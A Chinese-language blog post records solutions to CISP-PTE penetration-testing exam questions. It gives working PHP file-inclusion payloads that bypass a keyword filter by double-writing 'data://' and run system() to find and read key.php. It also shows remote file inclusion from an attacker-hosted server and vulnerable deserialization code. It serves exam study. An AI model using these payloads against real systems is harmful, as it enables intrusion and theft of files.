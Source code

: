 ```yaml
---
title: PTE试题记录
date: 2023-02-02 16:26:22
categories: 渗透测试
tags: 考试
---
```


对PTE考试的几道题做了一下总结记录。



#### 1.文件包含 83

本题过滤了一些文件包含的关键字,包括但不限于以下关键字

* php://filter
* php://input
* data://

解决方式，双写绕过

##### 解法一 

`http://150.158.27.164:83/start/index.php?page=datdata://a://text/plain,<?php system('find / -name key.php');?>`

`http://150.158.27.164:83/start/index.php?page=datdata://a://text/plain,<?php system('cat /var/www/html/key.php');?>`

或者使用相对路径

`http://150.158.27.164:83/start/index.php?page=datdata://a://text/plain,<?php system('cat ../key.php');?>`

##### 解法二

远程文件包含

编辑1.txt文件，写入php代码

`<?php system('cat ../key.php');?>`

将txt文件放入远程服务器，开启简单http服务

`python3 -m http.server 80`

由于本题会自动添加后缀txt，所以直接访问1即可

`http://150.158.27.164:83/start/index.php?page=http://152.32.191.36:8050/1`

#### 2.反序列化漏洞-84

```
 <?php
error_reporting(0);
include "key4.php";
$PTE = "CISP-PTE";
$str = $_GET['str'];
if (unserialize($str) === "$PTE")
{
    echo "$key4";
}
show_source(__FILE__); 
```
